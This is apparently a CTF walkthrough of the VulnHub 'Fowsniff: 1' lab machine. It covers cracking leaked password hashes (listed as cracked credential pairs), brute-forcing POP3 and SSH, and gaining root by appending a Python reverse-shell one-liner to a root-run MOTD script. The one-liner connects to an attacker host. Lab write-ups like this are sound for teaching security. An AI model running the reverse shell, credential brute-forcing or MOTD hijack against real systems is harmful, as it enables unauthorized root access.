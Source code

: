 # FOWSNIFF: 1

## 1.GET VM IP:

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e385b77d-00dc-4c7e-94e2-61b73ecf1c5b)

The ip address is `192.168.56.111`, let's enumerate it.

## 2.Enumeration

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f80e208c-de6f-4236-afdb-bb479c08a047)

On port 80 there is nothing to check but the information it gives us :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/78aa10fd-fd01-41c4-9e37-51b77f080c77)

so i tried to search for `fowsniff corp` on google and i found a [twitter](https://twitter.com/fowsniffcorp?lang=en) page and a [github](https://raw.githubusercontent.com/berzerk0/Fowsniff/main/fowsniff.txt) page

that shows dump of passwords hashes, just use an online service or john to crack the hashes, after cracking them you will reach to this list :

```text
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4=mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56=bilbo101
tegel@fowsniff:1dc352435fecca338acfd4be10984009=apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb=skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26=scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b=carp4ever
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11=orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e=07011972
```

now we can try to login to pop3 service using one of these credentials, just separate users and passwords in two file and brute force the pop3 :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c2c3fcdc-a1eb-475a-be04-e8fae9fef567)

here i found a valid credential so let's login to mail server :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/21e99fb9-e927-40ec-8c46-c82fc2802865)

and let's check the content of the messages :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/62bb996a-b70d-44f2-89ba-c3b2a6708549)

in this message we find a possible ssh password, now we should test it again all users.

## 3.Gaining Shell

Again we try to brute force the ssh service with the newly found password and the list of users we created before :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/cfc5caf8-dea8-4ae2-a680-5ca0c6f34760)

yes, we found a credential for ssh login :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/02565803-a334-4347-9fde-dcea5db429d1)

## 4.Privilege Escalation

We are part of group `users` so it worth checking if this group has right to access to any files on the system :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/ae612d7f-df39-4999-8070-c430d92b054f)

it seems that we can access the file `cube.sh` so let's check the content of it :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/461acf2e-1510-4591-8dbe-6867bde41bb7)

it is the same text we get when we login to the server, so it like the banner of the ssh login.

so it worth checking `update-motd.d` to see if this script is present here :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/4ed8df5a-934f-47b9-b676-db56069801f2)

yes, the file `00-header` is using this script :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/59e9eaeb-d7ec-4f2b-825f-47a880b71e41)

i just add a python3 reverse shell to `cube.sh` to get another shell as user root :

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
